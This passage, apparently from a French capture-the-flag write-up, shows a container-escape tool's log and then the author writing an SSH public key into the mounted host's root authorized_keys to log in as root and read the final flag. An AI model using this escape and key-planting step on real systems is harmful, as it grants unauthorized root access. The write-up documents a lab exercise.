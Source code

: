 ```bash
2022/11/21 12:30:19 exploit only suitable for cgroup v1

[Auto Escape - Shared Net Namespace]
2022/11/21 12:30:19 Cannot find vulnerable containerd-shim socket.
2022/11/21 12:30:19 exploit failed.

[Auto Escape - docker.sock]
2022/11/21 12:30:19 err found while stat docker.sock path.:
stat /var/run/docker.sock: no such file or directory
2022/11/21 12:30:19 exploit failed

[Auto Escape - K8s API Server]
2022/11/21 12:30:19 checking if api-server allows system:anonymous request.
err found while searching local K8s apiserver addr.:
err: cannot find kubernetes api host in ENV
        api-server forbids anonymous request.
        response:
load K8s service account token error.:
open /var/run/secrets/kubernetes.io/serviceaccount/token: no such file or directory
2022/11/21 12:30:19 exploit failed
2022/11/21 12:30:19 all exploits are finished, auto exploit success!
```

Qu'importe, je vois que le système de fichier hôte a été monté sous `/tmp/cdk_FJvUy`, c'est bien suffisant pour arriver à mes fins :

```bash
root@04584549e707:/tmp# echo ssh-rsa --- snip ma clé publique ssh snip --- > /tmp/cdk_FJvUy/root/.ssh/authorized_keys
```

Je peux alors me connecter et obtenir le dernier flag :

```bash
$ ssh root@192.168.242.130
Enter passphrase for key '/home/devloop/.ssh/id_rsa': 
Linux debian 5.10.0-15-amd64 #1 SMP Debian 5.10.120-1 (2022-06-09) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Sun Jul 10 05:36:42 2022
root@debian:~# id
uid=0(root) gid=0(root) groups=0(root)
root@debian:~# ls
root@debian:~# ls /
FLAG-3.txt  bin  boot  dev  etc  home  lib  lib32  lib64  libx32  lost+found  media  mnt  opt  proc  root  run  sbin  srv  sys  tmp  usr  var
root@debian:~# cat /FLAG-3.txt 
Flag{'trinity-can-fly'}

https://cdn3.whatculture.com/images/2021/12/b11f3b3c4c428f5f-600x338.jpg

Thank you for playing! Looking forward to the write-ups!

- Jay (@jaybeale)
```

Un outil de liste à ajouter dans ma liste :)

*Publié le 21 novembre 2022*
